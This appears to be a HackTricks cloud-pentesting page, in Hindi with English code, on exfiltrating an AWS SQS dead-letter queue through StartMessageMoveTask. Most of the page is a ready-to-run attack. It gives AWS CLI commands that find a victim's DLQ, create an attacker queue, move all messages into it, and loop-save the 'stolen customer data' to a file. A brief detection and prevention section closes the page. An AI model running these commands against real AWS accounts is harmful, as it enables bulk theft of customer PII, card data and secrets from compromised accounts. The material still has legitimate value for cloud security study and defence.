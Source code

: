# AWS – SQS DLQ Redrive Exfiltration via StartMessageMoveTask

{{#include ../../../banners/hacktricks-training.md}}

## विवरण

SQS message move tasks का दुरुपयोग करके victim के Dead-Letter Queue (DLQ) में जमा सभी संदेशों को चुराएँ और उन्हें attacker-controlled queue पर redirect करें, इसके लिए `sqs:StartMessageMoveTask` का उपयोग करें। यह तकनीक AWS के वैध message recovery फीचर का फायदा उठाकर DLQs में समय के साथ जमा संवेदनशील डेटा को exfiltrate करने के लिए प्रयोग की जाती है।

## Dead-Letter Queue (DLQ) क्या है?

Dead-Letter Queue एक विशेष SQS queue है जहाँ वे संदेश भेजे जाते हैं जो मुख्य एप्लिकेशन द्वारा सफलतापूर्वक प्रोसेस नहीं हो पाते। ये failed संदेश अक्सर निम्न चीज़ें रख सकते हैं:
- प्रोसेस न हो पाने वाला संवेदनशील application डेटा
- त्रुटि विवरण और debugging जानकारी
- Personal Identifiable Information (PII)
- API tokens, credentials, या अन्य secrets
- Business-critical transaction डेटा

DLQs असफल संदेशों के लिए एक "graveyard" की तरह काम करते हैं, इसलिए ये मूल्यवान लक्ष्य होते हैं क्योंकि इनमें समय के साथ उन संवेदनशील डेटा का संचय होता है जिन्हें ऐप्लिकेशन्स सही से हैंडल नहीं कर पाए।

## हमला परिदृश्य

वास्तविक उदाहरण:
1. **E-commerce application** SQS के माध्यम से ग्राहक आदेश प्रोसेस करता है
2. **कुछ ऑर्डर विफल हो जाते हैं** (payment issues, inventory problems, आदि) और DLQ में चले जाते हैं
3. **DLQ में हफ्तों/महीनों के विफल ऑर्डर जमा हो जाते हैं** जिनमें ग्राहक डेटा होता है: `{"customerId": "12345", "creditCard": "4111-1111-1111-1111", "orderTotal": "$500"}`
4. **Attacker को AWS credentials मिल जाते हैं** जिनमें SQS permissions हैं
5. **Attacker पाता है** कि DLQ में संवेदनशील डेटा वाले हजारों failed orders हैं
6. **व्यक्ति व्यक्तिगत संदेशों तक पहुँचने की कोशिश करने के बजाय** (धीमा और स्पष्ट), attacker `StartMessageMoveTask` का उपयोग करके सभी संदेशों को bulk में अपनी queue पर स्थानांतरित कर देता है
7. **Attacker एक ही ऑपरेशन में** सभी ऐतिहासिक संवेदनशील डेटा निकाल लेता है

## आवश्यकताएँ
- स्रोत queue को किसी queue के RedrivePolicy द्वारा DLQ के रूप में कॉन्फ़िगर किया गया होना चाहिए।
- IAM permissions (compromised victim principal के रूप में चलाते समय):
- DLQ (source) पर: `sqs:StartMessageMoveTask`, `sqs:GetQueueAttributes`.
- destination queue पर: संदेश deliver करने की अनुमति (उदा., queue policy जो victim principal से `sqs:SendMessage` को allow करती हो)। उसी account के destination के लिए यह सामान्यतः default में allowed होता है।
- यदि SSE-KMS सक्षम है: source CMK पर `kms:Decrypt`, और destination CMK पर `kms:GenerateDataKey`, `kms:Encrypt`।

## प्रभाव
DLQs में जमा संवेदनशील payloads (failed events, PII, tokens, application payloads) को native SQS APIs का उपयोग करके उच्च गति पर exfiltrate किया जा सकता है। यदि destination queue policy victim principal से `SendMessage` की अनुमति देती है तो यह cross-account भी काम करता है।

## दुरुपयोग करने का तरीका

- पीड़ित DLQ ARN की पहचान करें और सुनिश्चित करें कि यह वास्तव में किसी queue द्वारा DLQ के रूप में refer किया गया हो (कोई भी queue चलेगा)।
- एक attacker-controlled destination queue बनाएं या चुनें और उसका ARN प्राप्त करें।
- victim DLQ से आपकी destination queue तक एक message move task शुरू करें।
- प्रगति की निगरानी करें या आवश्यकता होने पर रद्द करें।

### CLI उदाहरण: E-commerce DLQ से ग्राहक डेटा निकालना

**परिदृश्य**: एक attacker ने AWS credentials compromise कर लिए हैं और पता चला है कि एक ई-कॉमर्स एप्लिकेशन SQS और एक DLQ का उपयोग करता है जिसमें ग्राहक के order processing के विफल प्रयास जमा हैं।

1) **Victim DLQ की खोज और निरीक्षण करें**
```bash
# List queues to find DLQs (look for names containing 'dlq', 'dead', 'failed', etc.)
aws sqs list-queues --queue-name-prefix dlq

# Let's say we found: https://sqs.us-east-1.amazonaws.com/123456789012/ecommerce-orders-dlq
VICTIM_DLQ_URL="https://sqs.us-east-1.amazonaws.com/123456789012/ecommerce-orders-dlq"
SRC_ARN=$(aws sqs get-queue-attributes --queue-url "$VICTIM_DLQ_URL" --attribute-names QueueArn --query Attributes.QueueArn --output text)

# Check how many messages are in the DLQ (potential treasure trove!)
aws sqs get-queue-attributes --queue-url "$VICTIM_DLQ_URL" \
--attribute-names ApproximateNumberOfMessages
# Output might show: "ApproximateNumberOfMessages": "1847"
```
2) **attacker-controlled गंतव्य queue बनाएँ**
```bash
# Create our exfiltration queue
ATTACKER_Q_URL=$(aws sqs create-queue --queue-name hacker-exfil-$(date +%s) --query QueueUrl --output text)
ATTACKER_Q_ARN=$(aws sqs get-queue-attributes --queue-url "$ATTACKER_Q_URL" --attribute-names QueueArn --query Attributes.QueueArn --output text)

echo "Created exfiltration queue: $ATTACKER_Q_ARN"
```
3) **थोक संदेश चोरी को निष्पादित करें**
```bash
# Start moving ALL messages from victim DLQ to our queue
# This operation will transfer thousands of failed orders containing customer data
echo "Starting bulk exfiltration of $SRC_ARN to $ATTACKER_Q_ARN"
TASK_RESPONSE=$(aws sqs start-message-move-task \
--source-arn "$SRC_ARN" \
--destination-arn "$ATTACKER_Q_ARN" \
--max-number-of-messages-per-second 100)

echo "Move task started: $TASK_RESPONSE"

# Monitor the theft progress
aws sqs list-message-move-tasks --source-arn "$SRC_ARN" --max-results 10
```
4) **चोरी किए गए संवेदनशील डेटा को एकत्र करें**
```bash
# Receive the exfiltrated customer data
echo "Receiving stolen customer data..."
aws sqs receive-message --queue-url "$ATTACKER_Q_URL" \
--attribute-names All --message-attribute-names All \
--max-number-of-messages 10 --wait-time-seconds 5

# Example of what an attacker might see:
# {
#   "Body": "{\"customerId\":\"cust_12345\",\"email\":\"john@example.com\",\"creditCard\":\"4111-1111-1111-1111\",\"orderTotal\":\"$299.99\",\"failureReason\":\"Payment declined\"}",
#   "MessageId": "12345-abcd-6789-efgh"
# }

# Continue receiving all messages in batches
while true; do
MESSAGES=$(aws sqs receive-message --queue-url "$ATTACKER_Q_URL" \
--max-number-of-messages 10 --wait-time-seconds 2 --output json)

if [ "$(echo "$MESSAGES" | jq '.Messages | length')" -eq 0 ]; then
echo "No more messages - exfiltration complete!"
break
fi

echo "Received batch of stolen data..."
# Process/save the stolen customer data
echo "$MESSAGES" >> stolen_customer_data.json
done
```
### क्रॉस-एकाउंट नोट्स
- गंतव्य queue में ऐसी resource policy होनी चाहिए जो victim principal को `sqs:SendMessage` की अनुमति दे (और, यदि लागू हो, KMS grants/permissions)।

## यह हमला प्रभावी क्यों है

1. **वैध AWS फीचर**: बिल्ट-इन AWS कार्यक्षमता का उपयोग करता है, जिससे इसे दुर्भावनापूर्ण के रूप में पहचानना कठिन हो जाता है  
2. **Bulk Operation**: धीमी व्यक्तिगत पहुंच की बजाय हजारों संदेशों को तेज़ी से स्थानांतरित करता है  
3. **Historical Data**: DLQs हफ्तों/महीनों में संवेदनशील डेटा जमा करते हैं  
4. **Under the Radar**: कई संगठन DLQ एक्सेस की करीबी निगरानी नहीं करते  
5. **Cross-Account Capable**: यदि permissions अनुमति दें तो हमलावर अपने ही AWS अकाउंट में exfiltrate कर सकता है

## पहचान और रोकथाम

### पहचान
संदिग्ध `StartMessageMoveTask` API कॉल के लिए CloudTrail की निगरानी करें:
```json
{
"eventName": "StartMessageMoveTask",
"sourceIPAddress": "suspicious-ip",
"userIdentity": {
"type": "IAMUser",
"userName": "compromised-user"
},
"requestParameters": {
"sourceArn": "arn:aws:sqs:us-east-1:123456789012:sensitive-dlq",
"destinationArn": "arn:aws:sqs:us-east-1:attacker-account:exfil-queue"
}
}
```
### रोकथाम
1. **न्यूनतम अधिकार**: केवल आवश्यक भूमिकाओं के लिए `sqs:StartMessageMoveTask` अनुमतियाँ सीमित करें
2. **DLQs की निगरानी**: असामान्य DLQ गतिविधि के लिए CloudWatch अलार्म सेट करें
3. **क्रॉस-एकाउंट नीतियाँ**: खाता-पार पहुँच की अनुमति देने वाली SQS queue नीतियों की सावधानीपूर्वक समीक्षा करें
4. **DLQs को एन्क्रिप्ट करें**: SSE-KMS का उपयोग करें और सीमित कुंजी नीतियाँ लागू करें
5. **नियमित सफाई**: DLQs में संवेदनशील डेटा को अनिश्चितकाल तक जमा न होने दें

{{#include ../../../banners/hacktricks-training.md}}
